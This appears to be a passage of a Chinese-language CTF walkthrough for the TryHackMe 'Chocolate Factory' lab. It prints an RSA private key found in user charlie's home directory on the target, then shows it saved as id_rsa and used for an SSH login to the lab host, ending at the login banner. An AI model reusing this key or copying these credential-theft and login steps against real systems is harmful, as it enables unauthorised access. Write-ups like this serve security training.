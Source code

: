 -rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1.7K Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
$ cat teleport
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb
L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj
B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY
fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE
RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej
Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9
zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF
w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl
kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ
j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2
EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T
RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF
uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA
KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ
RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19
znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB
la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB
FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg
82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK
37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv
ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb
Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM
Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm
G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
-----END RSA PRIVATE KEY-----

```

把私钥保存成一个id_rsa文件，使用ssh登录charlie的账号，拿到user.txt
```
┌──(root💀kali)-[~/tryhackme/ChocolateFactory]
└─#  ssh -i id_rsa charlie@10.10.164.40
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Sep 30 03:56:19 UTC 2021

  System load:  0.08              Processes:           1206
  Usage of /:   44.0% of 8.79GB   Users logged in:     0
  Memory usage: 49%               IP address for eth0: 10.10.164.40
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.
